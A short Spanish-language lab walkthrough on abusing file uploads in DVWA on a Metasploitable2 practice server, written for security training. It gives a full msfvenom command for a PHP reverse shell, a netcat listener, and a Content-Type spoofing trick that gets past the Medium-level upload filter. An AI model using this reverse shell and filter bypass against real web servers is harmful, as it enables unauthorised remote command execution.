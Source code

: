 # File Upload Abuse Parte 1
Cambiar la seguridad del sitio a **Low**.  

Crear un reverse shell con `msfvenom`:  
`msfvenom -p php/reverse_php LHOST=<IP DEL ATACANTE> LPORT=<ALGUN PUERTO PARA ESCUCHAR> -f raw > msfvenom-shell.php`  

Confirmar que se creó el shell corriendo el comando `ls`.  

Subir el shell al servidor Metasploitable2.  

Abrir otra ventana de terminal para ejecutar una instancia de **Netcat**. Netcat es una utilidad que va a escuchar por cualquier petición al puerto que definimos anteriormente.  
`nc -lvp <EL PUERTO QUE PUSIMOS ARRIBA>`

Ahora navegar a la página donde se subió el shell. Ejemplo: http://192.168.100.93/dvwa/hackable/uploads/msfvenom-shell.php  
El navegador no debería desplegar nada, pero en la terminal donde tenemos Netcat, vamos a obtener información de que se lograron conectar.  

Ahora se pueden ejecutar comandos remotamente, por ejemplo `ls`.  

---

# File Upload Abuse Parte 2
Cambiar la seguridad del sitio a **Medium** y reintentar el ataque anterior.  
El servidor no va a dejar subir el archivo por el tipo de archivo que es. 

Para burlar esto, interceptar el request con Burp y seguidamente alterar el paquete de la siguiente forma:  

En la línea donde dice:  

`Content-Type: application/x-php`  

Cambiar el header a:  

`Content-Type: image/jpeg`  

De esta forma el sevidor piensa que está recibiendo un archivo de imagen.  

Ahora podemos ejecutar de nuevo Netcat y repetir el resto de los pasos anteriores.
